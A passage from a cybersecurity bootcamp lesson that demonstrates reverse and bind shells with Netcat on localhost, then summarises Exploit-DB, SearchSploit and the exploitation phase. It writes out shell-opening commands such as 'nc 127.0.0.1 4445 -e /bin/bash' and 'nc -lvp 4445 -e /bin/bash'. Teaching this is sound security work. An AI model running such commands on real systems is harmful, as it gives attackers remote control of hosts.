4. In the new window, connect to port 4445 on the attacker's host window by typing `nc 127.0.0.1 4445 -e /bin/bash`, as the following image shows:

	 
	
5. From the attacker's window, we now have a reverse shell opened on the target host, and we can now execute commands to it remotely. 

6. Run `whoami` in the attacker's window.

    - This type of attack requires the host to run the connection string command (`nc 127.0.0.1 4445 -e /bin/bash`), which is often done through some type of **remote-code execution (RCE)** exploit.

    - Use ctrl+C to stop the Netcat connection, and `clear` the windows.

**Bind Shells**

Now, you will demonstrate a bind shell.

1. In the victim/target's window on the right, run `nc -lvp 4445 -e /bin/bash`.

    - The victim now has /bin/bash listening on port 4445, as the following image shows:

	 
	
2. In the attacker window on the left, connect to port 4445: `nc 127.0.0.1 4445`. Run the `id` command to show you have a shell and can execute commands, as the following image shows: 

	

    - A bind shell requires the listener to be set up on the victim/target, where a reverse shell has the listener on the attacker's machine.

#### Summary 

  - **Exploit-DB.com** is a popular online database that contains publicly disclosed exploits, cataloged according to their **Common Vulnerability and Exposure (CVE)** identifiers.
  - **SearchSploit** is a command-line utility for Exploit-DB that allows you to take an offline copy of the entire Exploit database with you wherever you go.
    - Security professionals can perform detailed offline searches of hundreds of exploit scripts from Exploit-DB using the locally checked-out copy of the online repository.
    - SearchSploit comes preinstalled on Kali Linux and should be updated regularly. 
  - After determining which exploits to use, exploits can be attempted in the **exploitation** phase.
  - Exploited access to a machine is typically granted in the form of terminal access, known as a **shell**.
  - Two types of shells are **bind** and **reverse**.
     - A **bind shell** is where the remote host opens a port for the current host to connect to. The current, local host then connects to that remote host's port.
     - A **reverse shell** is where the remote host connects back to a port on the local host.

### 14. Exploitation 

- [Activity File: Exploitation](activities/05_Exploitation/Unsolved/README.md)

### 15. Exploitation Review

- [Solution File: Exploitation](activities/05_Exploitation/Solved/README.md)

-------

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.  
